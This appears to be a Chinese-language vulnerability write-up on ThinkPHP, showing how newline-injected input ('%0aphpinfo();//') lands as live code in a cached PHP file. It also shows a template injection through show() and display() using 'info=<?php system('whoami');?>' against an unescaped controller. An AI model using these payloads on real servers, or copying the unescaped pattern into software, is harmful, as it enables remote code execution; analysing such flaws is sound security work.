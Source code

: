 ![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203201611252.png)

文件名是`$name`的md5

写入的数据经过了序列化

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203201612696.png)

最终文件路径为`./Application/Runtime/Temp/2591c98b70119fe624898b1e424b5e91.php`

```php
<?php
//000000000000s:4:"asdf";
?>
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203201618008.png)

传入`shell=%0aphpinfo();//`

```php
<?php
//000000000000s:13:"
phpinfo();//";
?>
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203201621681.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203201621121.png)

## 特殊情况下造成命令执行

1. `$this->show`和`$this->display`

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $info = I('GET.info');
        $this->show($info);
        $this->display('','','',$info);
        $info = I('GET.info','','');#没有对<和>进行转义
        $this->show($info);
        $this->display('','','',$info);
    }
}
```

`info=<?php system('whoami');?>`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203202114626.png)
